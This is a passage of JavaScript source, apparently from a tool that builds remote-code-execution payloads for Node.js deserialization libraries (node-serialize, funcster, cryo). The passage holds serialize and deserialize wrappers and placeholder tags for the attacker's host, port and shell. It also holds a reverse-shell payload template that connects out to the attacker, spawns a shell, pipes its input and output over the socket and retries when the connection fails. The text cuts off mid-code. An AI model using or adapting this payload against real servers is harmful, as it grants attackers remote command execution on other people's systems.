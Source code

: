 ```js
    } else if (serializer == "ns") {
        return require('node-serialize').serialize(object);
    } else if (argv.serializer == "cryo") {
        return require('cryo').stringify(object);
    }
}

// Deserialize function wrap
function deserialize(serializer, object) {
    if (serializer == "fstr") {
        return require('funcster').deepDeserialize(object);
    } else if (serializer == "ns") {
        return require('node-serialize').unserialize(object);
    } else if (argv.serializer == "cryo") {
        return require('cryo').parse(object);
    }
}

/* As dynamic commands couldn't be added during serialization,
*  these tags were applied to payload templates to allow dynamic
*  configuration 
*/
cmd_tag = /####COMMAND####/g;
lhost_tag = /####LHOST####/g;
lport_tag = /####LPORT####/g;
shell_tag = /####SHELL####/g;
sentinel_tag = /\/\/####SENTINEL####\s*}/g;
proto_tag=/function_prototype/g;

//BEGIN - Payload Template Generation
if (argv.vector == "rshell" && argv.serializer != "cryo") {
    if (typeof argv.lport == 'undefined' || typeof argv.lhost == 'undefined') {
        console.log("[-] RShell vector requires LHOST and LPORT to be specified");
        process.exit();
    }
    payload = {
        rce: function() {
            var net = require('net');
            var spawn = require('child_process').spawn;
            HOST = "####LHOST####";
            PORT = "####LPORT####";
            TIMEOUT = "5000";
            if (typeof String.prototype.contains === 'undefined') {
                String.prototype.contains = function(it) {
                    return this.indexOf(it) != -1;
                };
            }

            function c(HOST, PORT) {
                var client = new net.Socket();
                client.connect(PORT, HOST, function() {
                    var sh = spawn("####SHELL####", []);
                    client.write("Connected!");
                    client.pipe(sh.stdin);
                    sh.stdout.pipe(client);
                    sh.stderr.pipe(client);
                    sh.on('exit', function(code, signal) {
                        client.end("Disconnected!");
                    });
                });
                client.on('error', function(e) {
                    setTimeout(c(HOST, PORT), TIMEOUT);
                });
```